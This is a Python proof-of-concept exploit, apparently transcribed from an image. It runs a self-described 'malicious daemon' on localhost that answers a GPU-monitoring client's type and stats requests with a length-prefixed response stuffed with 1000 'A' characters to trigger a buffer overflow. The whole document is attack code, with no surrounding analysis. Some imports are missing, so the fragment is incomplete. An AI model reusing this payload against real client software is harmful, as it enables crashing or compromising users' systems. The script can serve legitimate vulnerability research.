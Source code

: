APIVERSION = 1

def create_prelude(version, length):
    prelude_int = (version << 24) | length
    return struct.pack('!I', prelude_int)

def main():
    # Payload for the first request ('T' - Type)
    overflow_string = "A" * 1000
    type_payload_str = f"1@{overflow_string} FAKE_GPU y@"
    type_payload_bytes = type_payload_str.encode('utf-8')
    type_prelude = create_prelude(APIVERSION, len(type_payload_bytes))
    full_type_response = type_prelude + type_payload_bytes

    # Payload for the second request ('S' - Stats)
    stats_payload_str = "@ 1 2 3 4 5 6 7 8"
    stats_payload_bytes = stats_payload_str.encode('utf-8')
    stats_prelude = create_prelude(APIVERSION, len(stats_payload_bytes))
    full_stats_response = stats_prelude + stats_payload_bytes

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('127.0.0.1', 59123))
        s.listen()
        print("Malicious daemon listening on port 59123...", file=sys.stderr)

        conn, addr = s.accept()
        with conn:
            print(f"Connection from {addr}", file=sys.stderr)

            # Handle 'T' request
            type_request = conn.recv(2)
            if type_request == b'T\x01':
                print("Sending malicious type response...", file=sys.stderr)
                conn.sendall(full_type_response)
            else:
                print("Did not receive expected type request. Closing.", file=sys.stderr)
                return

            # Handle 'S' request
            stats_request = conn.recv(2)
            if stats_request == b'S\x01':
                print("Sending malicious stats response...", file=sys.stderr)
                conn.sendall(full_stats_response)
                print("Payload sent. Overflow should occur.", file=sys.stderr)
            else:
                print("Did not receive expected stats request. Closing.", file=sys.stderr)
                return
            
